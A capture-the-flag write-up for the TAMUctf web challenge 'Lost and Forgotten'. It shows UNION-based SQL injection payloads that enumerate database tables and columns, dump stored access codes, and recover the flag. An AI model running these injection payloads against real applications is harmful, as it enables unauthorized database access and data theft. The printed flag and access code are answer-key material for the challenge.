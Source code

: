 # Lost and Forgotten
Category: Web

## Description
Author: `Mr. Blade`

I seem to have forgotten the password to my most recent writeup. I wonder if there is any way to recover it.

[http://lost-and-forgotten.tamuctf.com/](http://lost-and-forgotten.tamuctf.com/)

## Write-up
- The search functionality is vulnerable to SQL blind injection. By injecting SQL code into the search input, we can retrieve information from the database.
- Injecting `a' UNION SELECT 1,1,1,1,1,'1';#` reveals a post with title 1, description 1, and so on.
- We can start to leak information about the database by executing specific SQL queries.
- To leak table names, we used `a' UNION SELECT table_name,1,1,1,1,'1' FROM INFORMATION_SCHEMA.TABLES;#`. It revealed an `articles` table.
- The query `a' UNION SELECT column_name,1,1,1,1,'1' FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'articles';#` reveals the column names in the `articles` table such as `title` and `access_code`.
- To retrieve all articles with their titles and access codes, we used `a' UNION SELECT title,access_code,1,1,1,'1' FROM articles;#`.
- We can observe the `access_code` `ba65ba9416d8e53c5d02006b2962d27e` corresponded to the latest write-up post.
- Providing this `access_code` grants access to the write-up post, where it displayed the flag.

Flag: `tamuctf{st4te_0f_th3_UNION_1njecti0n}`
